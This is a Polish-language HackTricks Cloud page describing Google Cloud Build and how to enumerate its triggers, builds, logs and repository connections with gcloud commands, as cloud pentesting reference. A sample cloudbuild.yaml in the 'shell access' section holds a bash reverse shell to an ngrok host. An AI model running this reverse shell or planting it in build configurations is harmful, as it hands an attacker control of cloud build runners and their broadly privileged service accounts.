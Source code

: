 # GCP - Cloud Build Enum

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

Google Cloud Build to zarządzana platforma CI/CD, która **automatyzuje procesy budowania oprogramowania** i wydawania, integrując się z **repozytoriami kodu źródłowego** i obsługując szeroki zakres języków programowania. **Umożliwia programistom automatyczne budowanie, testowanie i wdrażanie kodu**, zapewniając jednocześnie elastyczność w dostosowywaniu kroków budowania i przepływów pracy.

Każdy wyzwalacz Cloud Build jest **powiązany z Repozytorium Cloud lub bezpośrednio połączony z zewnętrznym repozytorium** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nie widziałem żadnego sposobu na kradzież tokenu Github/Bitbucket stąd ani z Repozytoriów Cloud, ponieważ po pobraniu repozytorium jest ono dostępne za pośrednictwem adresu URL [https://source.cloud.google.com/](https://source.cloud.google.com/), a Github nie jest dostępny dla klienta.
{% endhint %}

### Wydarzenia

Cloud Build może zostać wywołany, jeśli:

* **Wprowadzono zmiany do gałęzi**: Określ gałąź
* **Dodano nową etykietę**: Określ etykietę
* **Pull request**: Określ gałąź, która otrzymuje PR
* **Ręczne wywołanie**
* **Wiadomość Pub/Sub**: Określ temat
* **Zdarzenie webhook**: Ujawni adres URL HTTPS, a żądanie musi być uwierzytelnione za pomocą sekretu

### Wykonanie

Istnieją 3 opcje:

* Plik yaml/json **określający polecenia** do wykonania. Zazwyczaj: `/cloudbuild.yaml`
* Jedna, która może być określona "w linii" w konsoli internetowej i w wierszu poleceń
* Najczęstsza opcja
* Istotna dla dostępu nieuwierzytelnionego
* **Dockerfile** do zbudowania
* **Buildpack** do zbudowania

### Uprawnienia SA

**Konto usługi ma zakres `cloud-platform`**, dzięki czemu może **korzystać ze wszystkich uprawnień.** Jeśli **nie jest określone żadne konto usługi** (jak przy przesyłaniu), zostanie użyte **domyślne konto usługi** `<numer-projektu>@cloudbuild.gserviceaccount.com`.

Domyślnie nie są udzielane żadne uprawnienia, ale jest dość łatwo nadać je:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Zatwierdzenia

Możliwe jest skonfigurowanie Cloud Builda w taki sposób, aby **wymagał zatwierdzeń dla wykonania budowy** (domyślnie wyłączone).

### Połączenia i Repozytoria

Połączenia można tworzyć za pomocą:

* **GitHub:** Wyświetli monit OAuth, prosząc o uprawnienia do **uzyskania tokenu Github**, który zostanie przechowywany w **Menedżerze Sekretów.**
* **GitHub Enterprise:** Poprosi o zainstalowanie **GithubApp**. Token **uwierzytelniający** z hosta GitHub Enterprise zostanie utworzony i przechowywany w tym projekcie jako sekret **Menedżera Sekretów.**
* **GitLab / Enterprise:** Należy **podać token dostępu API i token dostępu do odczytu API**, które zostaną przechowywane w **Menedżerze Sekretów.**

Po utworzeniu połączenia można go użyć do **powiązania repozytoriów, do których konto Github ma dostęp**.

Ta opcja jest dostępna za pomocą przycisku:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Zauważ, że repozytoria połączone w ten sposób są **dostępne tylko w wyzwalaczach korzystających z 2. generacji.**
{% endhint %}

### Połącz Repozytorium

To nie to samo co **`połączenie`**. Pozwala to na **różne** sposoby uzyskania **dostępu do repozytorium Githuba lub Bitbucket**, ale **nie generuje obiektu połączenia, ale generuje obiekt repozytorium (1. generacji).**

Ta opcja jest dostępna za pomocą przycisku:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Przechowywanie

Czasami Cloud Build **generuje nowe miejsce przechowywania plików dla wyzwalacza**. Dzieje się to na przykład w przykładzie, który oferuje GCP z:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### Uzyskaj dostęp do powłoki

Utworzono kubełek o nazwie [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox), aby przechowywać plik `.tgz` z plikami do użycia.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Wyliczanie

Możesz znaleźć **wrażliwe informacje w konfiguracjach budowy i logach**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacja uprawnień

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Nieuwierzytelniony dostęp

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Po wykorzystaniu

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
